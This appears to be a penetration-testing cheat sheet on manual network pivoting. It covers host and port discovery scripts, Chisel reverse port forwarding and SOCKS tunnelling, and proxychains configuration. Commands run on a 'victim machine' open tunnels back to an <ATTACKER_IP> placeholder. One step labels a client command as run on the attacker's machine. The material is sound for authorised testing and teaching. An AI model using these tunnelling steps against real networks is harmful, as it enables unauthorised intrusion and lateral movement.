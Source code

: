 # Pivoting

Pivoting is a crucial technique in ethical hacking and penetration testing, allowing attackers to extend their reach within a network. The provided Cheatsheet outlines the process of pivoting manually, without relying on tools like Metasploit. Let's break down the steps:

#### 1. Discover Active Machines

* Use the `host_discovery.sh` script to ping all IPs on the specified network.
*   Example:

    ```bash
    bash host_discovery.sh 10.10.2
    ```

#### 2. Discover Open Ports

* Utilize the `port_discovery.sh` script to discover open ports on the active machines.
*   Example:

    ```bash
    bash port_discovery.sh <IP_ADDRESS>
    ```

#### 3. Port Forwarding with Chisel

* Download and use Chisel for port forwarding. Transfer the Chisel binary to the victim machine.
*   On the attacker's machine:

    ```bash
    ./chisel server --reverse -p 1234
    ```
*   On the victim machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:80:<TARGET_IP>:80
    ```

#### 4. Tunneling Networks

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

* Create a tunnel between networks using Chisel for network pivoting.
*   On the attacker's machine:

    ```bash
    ./chisel client <ATTACKER_IP>:1234 R:socks
    ```
* Modify `/etc/proxychains.conf` to use the created tunnel.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>uncomment this line</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>in the end of the file </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Result</p></figcaption></figure>

#### Automation with Pivoting\_Enum Bash Script

* Transfer and execute the `pivoting.sh` script on the victim machine.
*   Example:

    ```bash
    bash pivoting.sh NETWORK
    ```
